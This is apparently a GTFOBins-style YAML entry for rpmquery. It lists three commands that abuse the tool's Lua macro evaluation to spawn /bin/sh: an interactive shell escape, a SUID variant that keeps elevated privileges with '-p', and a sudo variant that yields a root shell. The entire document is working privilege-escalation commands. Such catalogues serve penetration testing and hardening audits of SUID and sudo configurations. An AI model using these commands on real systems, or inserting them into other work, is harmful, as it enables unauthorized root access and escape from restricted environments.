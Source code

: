 ```yaml
---
functions:
  execute-interactive:
    - code: rpmquery --eval '%{lua:posix.exec("/bin/sh")}'
  suid-enabled:
    - code: ./rpmquery --eval '%{lua:posix.exec("/bin/sh", "-p")}'
  sudo-enabled:
    - code: sudo rpmquery --eval '%{lua:posix.exec("/bin/sh")}'
---
```

